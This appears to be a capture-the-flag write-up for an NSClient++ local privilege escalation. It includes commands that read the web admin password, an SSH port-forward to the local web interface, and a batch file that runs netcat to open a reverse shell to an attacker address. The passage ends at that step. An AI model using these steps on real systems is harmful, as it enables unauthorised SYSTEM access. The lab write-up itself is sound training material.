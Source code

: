```ruby

Details:
When NSClient++ is installed with Web Server enabled, local low privilege users have the ability to read the web administator's password in cleartext from the configuration file.  From here a user is able to login to the web server and make changes to the configuration file that is normally restricted.  

The user is able to enable the modules to check external scripts and schedule those scripts to run.  There doesn't seem to be restrictions on where the scripts are called from, so the user can create the script anywhere.  Since the NSClient++ Service runs as Local System, these scheduled scripts run as that user and the low privilege user can gain privilege escalation.  A reboot, as far as I can tell, is required to reload and read the changes to the web config.  

Prerequisites:
To successfully exploit this vulnerability, an attacker must already have local access to a system running NSClient++ with Web Server enabled using a low privileged user account with the ability to reboot the system.

```

> we will use this exploit [exploit](https://www.exploit-db.com/exploits/46802)

> first thing we have to grap the web administrator password.

> open c:\program files\nsclient++\nsclient.ini, 

> - or run the following that is instructed when you select forget password

> C:\Program Files\NSClient++>nscp web -- password --display

> ![WebCreds](https://i.ibb.co/h15rwZf/web.gif)

> now the seconed part we need to open the web page of the nscclient bur it was running in the localhost only so we have to do Port Forwarding.

> ![nsclient](https://i.ibb.co/SdMxsdp/we.png)

> Port-Forwarding: ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184

> ![](https://i.ibb.co/P1ZD9Zp/nsc.png)

> now we need to make an evil bat file and add it to the queries and run it to get reverse shell as system admin.

> i didn't use the gui beacause it's very laggy, so i will use the  command line and this is a Documentation for it.[Docs](https://docs.nsclient.org/api/rest/scripts/#add-script),[Docs2](https://docs.nsclient.org/api/rest/queries/#command-execute)
>

> now we have everything we want, so let's go.

> first we need to make a bat file with this content

```ruby

@echo off
	c:\temp\nc.exe 10.10.xx.xx 4444 -e cmd.exe
  
  ```
  